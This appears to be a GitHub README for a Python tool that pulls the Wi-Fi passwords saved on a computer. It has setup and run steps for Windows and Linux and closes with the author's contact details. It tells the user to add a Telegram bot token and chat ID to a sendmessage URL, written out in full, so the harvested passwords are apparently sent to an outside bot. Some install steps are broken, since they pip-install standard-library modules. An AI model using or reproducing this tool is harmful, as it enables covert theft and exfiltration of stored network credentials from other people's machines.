 # py-crack-wifi-password
A tool to crack Wi-Fi passwords on the computer. Python based

Using this tool, you can crack the Wi-Fi password registered on the computer.

How to run:
Install the listed libraries first.

In Windows:
pip install requests
pip install platform
pip install subprocess

Before running the program, create a bot using the botfather robot and use the robot
userinfobot Get your chat ID and then leave the token as well as your chat ID in the specified places

*Note that instead of [chat id] and [bot token], you must put your robot chat ID and token, such as:

("https://api.telegram.org/botabcd:39482372347126312764/sendmessage?chat_id=317628712&text="+msg)*

Now open cmd and command
Type python pywifick.py and press Enter.
After the commands are fully executed, the list of WiFi registered on the computer will be displayed for you and you can access the password by typing the WiFi name.

In Linux:
pip3 install requests
pip3 install platform
pip3 install subprocess

Before running the program, create a bot using the botfather robot and use the robot
userinfobot Get your chat ID and then leave the token as well as your chat ID in the specified places

*Note that instead of [chat id] and [bot token], you must put your robot chat ID and token, such as:

("https://api.telegram.org/botabcd:39482372347126312764/sendmessage?chat_id=317628712&text="+msg)*

Now open terminal and command
Type python pywifick.py and press Enter.
After the commands are fully executed, the list of WiFi registered on the computer will be displayed for you and you can access the password by typing the WiFi name.

# OS 
Windows

# Communication with the programmer
- Email : norouzif556@gmail.com
- Telegram : https://t.me/farbod_mi & https://t.me/farbod_mi1

